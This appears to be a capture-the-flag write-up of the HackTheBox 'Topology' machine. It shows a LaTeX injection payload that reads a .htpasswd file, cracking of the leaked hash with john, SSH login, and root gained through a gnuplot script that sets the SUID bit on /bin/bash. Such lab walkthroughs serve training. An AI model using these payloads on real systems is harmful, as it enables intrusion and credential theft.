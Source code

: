 ## Topology HackTheBox
## Difficulty = Easy
<hr>

Lets get started

<h2>'Topology walkthrough’</h2>

![image](/posts/res/topology_topology.png)

Today I would walk you through the process of Pwning a Free Hack The
Box machine called Topology.

<h2>Recon and Enumeration</h2>
<h>We always start with an nmap scan.....
Nmap is short for Network Mapper. It is an open-source Linux
command-line tool that is used to scan IP addresses and ports in a
network and to detect installed applications.
Nmap allows network admins to find which devices are running on
their network, discover open ports and services, and detect
vulnerabilities.</h>



<h3>PortScanning</h3>

command:```sudo nmap -sC -sV <machine IP>```

![image](/posts/res/nmap_topology.png)

We have just discovered two open ports and confirmed that we have
some application services running on them using service detection
and default nmap scripts.
So we can see that we have both port 80(http) and 22(ssh) open.
Without wasting much of our time lets begin digging around.
Now we add the machine IP to our host file 10.10.11.217 | Topology.htb

![image](/posts/res/host_topology.png)

with our browser fired up, lets head over to http://topology.htb

![image](/posts/res//webpage_topology.png)

Now let's take a view at the source Code of the Webpage

![image](/posts/res/source_topology.png)

we have just discovered a subdomain called http://latex.topology.htb
Scan the domain name and find all subdomain names that will return
status code 200. Lets run some enumeration using ffuf to see if we
can find any other subdomain.

![image](/posts/res/ffuf_topology.png)

It is found that the subdomain name dev exists, but verification
is required. Add dev.topology.htb, latex.topology.htb to
/etc/hosts and visit the website:

![image](/posts/res/login_topology.png)

Lets visit latex.topology.htb

![image](/posts/res/generator_topology.png)

so I did a research on Latex Equations and discovered that there
could be a possibility to a latex Injection Vulnerability on the
webpage.
So from my research I discovered that I could read and possibly
get the hash from the .htpasswd file to get the User credentials.
Now to read file using latex injection we can make use of the
following:

command: ```$\lstinputlisting{/var/www/dev/.htpasswd}$```

![image](/posts/res/page_topology.png)

![image](/posts/res/hash_topology.png)

Now we have gotten the username and HASH.   
Username = ```vdaisley```   
hash = ```$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0```

in order to determine what hash encryption/type we have, we can
head here and paste the hash into the textbox to identify.
So with our identification process complete we can clearly see
that our hash is an MD5 Encryption

![image](/posts/res/identify_topology.png)
lets decrypt the hash using john to get our password value.   
command: ```sudo john –wordlist=<path-to-your-wordlist> <path-
to-your-Hash-File>```

![image](/posts/res/john_topology.png)

with our hash sucessfully cracked, we now have our password. 


Password = ```calculus20```

so remembering from our nmap scan earlier,we had an ssh port open.
lets try to use these credentials to login via ssh in our
terminal.

![image](/posts/res/ssh_topology.png)

Eureka!! we successfully logged In as vdaisley using the
credentials. Lets find our user flag. To get the user flag just
navigate directories and cat out the user.txt

![image](/posts/res/flag1_topology.png)

we now have our user flag:- ```88a46c6d5da80e3bcbf1e3442d4d353a```



<h2>PRIVILEGE-ESCALATION</h2>


to gain root access we must upload an exploit pspy64. i found
gnuplot in /opt directory which has write and execute permission.
By running PSPY i found there is one process running and
executing a .plt files in the directory as a root
So I downloaded an pspy64 here and started an HTTP server on my
attacker machine using python to enable me to download the
exploit script using wget unto the target machine.

![image](/posts/res/python_server_topology.png)

Command used to start server: ```python3 -m http.server 8000```

![image](/posts/res/wget_topology.png)

with our exploit downloaded unto the machine we can now to make it
executable and run it.
After running pspy64 then run this.

command:- ```echo 'system "chmod u+s /bin/bash"' > /opt/gnuplot/privesc.plt```



The Above command made a .plt file inside a directory and with the
statement system chmod u+s.

After a few minutes then run /bin/bash -p to get root. From there
I was able to switch directories and was able to cat out the
root.txt

![image](/posts/res/pspy_topology.png)

Hope you enjoyed my writeup

![image](/posts/res/completed_topology.png)


